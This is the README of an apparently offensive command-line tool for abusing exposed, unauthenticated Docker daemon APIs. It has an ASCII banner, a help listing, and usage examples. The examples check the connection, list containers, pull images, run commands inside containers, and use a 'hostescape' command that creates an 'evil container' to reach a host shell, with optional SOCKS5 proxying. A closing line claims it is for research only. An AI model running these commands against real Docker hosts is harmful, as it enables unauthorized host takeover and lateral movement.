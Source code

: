 # Docker-Api-Tool
A command-line interface (CLI) tool for interacting with the Docker Daemon API via the Docker Go SDK, supporting various operations including container management, image pulling, and escaping to host shell by creating an evil container. It also features SOCKS5 proxy support for flexible network configurations.

## Usage
```shell
$ ./Docker-Api-Tool -h
   ___             __                   ___          _      ______            __
  / _ \ ___  ____ / /__ ___  ____ ____ / _ |  ___   (_)____/_  __/___  ___   / /
 / // // _ \/ __//  '_// -_)/ __//___// __ | / _ \ / //___/ / /  / _ \/ _ \ / / 
/____/ \___/\__//_/\_\ \__//_/       /_/ |_|/ .__//_/      /_/   \___/\___//_/  
                                           /_/                                  
                                                        v0.0.1          By itSssm3
Usage:
  Docker-Api-Tool [flags]
  Docker-Api-Tool [command]

Available Commands:
  check       Check DockerApi connection
  execctr     Exec command in an existing container
  help        Help about any command
  hostescape  Escape to HOST by creating an evil container
  listall     List all containers and images
  pullimage   Pull a new image

Flags:
  -h, --help               help for Docker-Api-Tool
      --proxyaddr string   Set proxy: socks5://127.0.0.1:6666 (optional)

Use "Docker-Api-Tool [command] --help" for more information about a command.
```

## check
```shell
(default clientversion - 1.49)
$ ./Docker-Api-Tool check --address tcp://127.0.0.1:2375
```

## listall
```shell
$ ./Docker-Api-Tool listall --address tcp://127.0.0.1:2375
```

## pullimage
```shell
(default imagename - ubuntu:latest)
$ ./Docker-Api-Tool pullimage --address tcp://127.0.0.1:2375
$ ./Docker-Api-Tool pullimage --address tcp://127.0.0.1:2375 --imagename mysql
```

## execctr
```shell
(default command - id)
$ ./Docker-Api-Tool execctr --address tcp://127.0.0.1:2375
$ ./Docker-Api-Tool execctr --address tcp://127.0.0.1:2375 --containerid a4c --command "ls -al"
$ ./Docker-Api-Tool execctr --address tcp://127.0.0.1:2375 --containerid hello-test --command "ls -al"
```

## hostescape
```shell
(default imagename - ubuntu:latest)
$ ./Docker-Api-Tool hostescape --address tcp://127.0.0.1:2375
$ ./Docker-Api-Tool hostescape --address tcp://127.0.0.1:2375 --imagename mysql
```

## with proxyaddr
```shell
$ ./Docker-Api-Tool check --address tcp://127.0.0.1:2375 --proxyaddr socks5://192.200.200.1:6666
```

# Download


# License
This project is licensed under the MIT License.

## **For technical research only, please do not use it for illegal purposes, otherwise the author will not be responsible for the consequences.**